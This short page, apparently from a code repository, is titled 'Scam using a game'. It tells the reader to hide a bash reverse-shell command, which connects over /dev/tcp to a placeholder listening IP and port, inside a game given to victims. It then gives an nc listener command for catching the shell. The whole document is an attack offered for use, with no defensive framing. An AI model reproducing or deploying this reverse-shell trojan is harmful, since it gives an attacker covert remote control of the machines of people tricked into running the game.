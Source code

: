 #Scam using a game

The command to insert in your scam game is as commented below: <br/>
```
  /bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1
```

The command to use for entry is: 
```
  nc -lnvp PORT -s YOUR_IP_ADDRESS
```
Note: The ip address in your file is the same as the ip you'll be listening using.
